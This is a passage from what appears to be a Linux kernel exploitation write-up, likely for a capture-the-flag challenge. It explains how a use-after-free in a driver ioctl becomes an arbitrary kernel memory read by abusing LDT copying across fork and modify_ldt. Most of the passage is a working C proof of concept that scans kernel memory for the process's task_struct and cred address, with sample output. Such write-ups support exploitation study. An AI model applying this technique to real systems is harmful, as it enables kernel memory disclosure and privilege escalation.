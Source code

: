 
We can see that, the kernel use memcpy to copy the content from  old_mm->context.ldt->entries to new_ldt->entries, which will not be blocked by hardened usercopy. So, we can read content from arbitrary address by following steps:

* Use uaf vulnerability to modify old_mm->context.ldt->entries in the parent process, pointing to the address we want to read
* Fork to copy the content to new_ldt->entries
* Call read_ldt in child process to call copy_to_user and get the content

The poc to search task_struct is as follows

```c
prctl(PR_SET_NAME, "0ops0ops0ops");
pid=getpid();
    pipe(pipefd);
    while(1){
        addr+=0x8000;
        ioctl(fd,KERN_EDITNOTE,addr);
        ret=fork();
        if(!ret){
            ret=syscall(SYS_modify_ldt, 0, buf,0x8000);
            unsigned long *search = (unsigned long *)buf;
            unsigned long long ans = 0;
            while ( (unsigned long)search < (unsigned long)buf+0x8000){
                search = memmem(search, (unsigned long)buf +0x8000- (unsigned long)search, "0ops0ops0ops", 12);
                if ( search == NULL )break;
                if ( (search[-2] > PAGE_OFFSET) && (search[-3] > PAGE_OFFSET )&&(int)search[-58]==pid){
                    printf("Found cred : %llx\n",search[-2]);
                    printf("Found pid: %d\n",search[-58]);
                    ans=search[-2];
                    break;
                }
                search+=12;
            }
            write(pipefd[1],&ans,8);
            exit(0);
        }
        wait(NULL);
        read(pipefd[0],&cred_addr,8);
        if(cred_addr)
        {
            break;
        }
    }
```

And we can get 

```shell
Found cred : ffff92c301398540
Found pid: 143
```
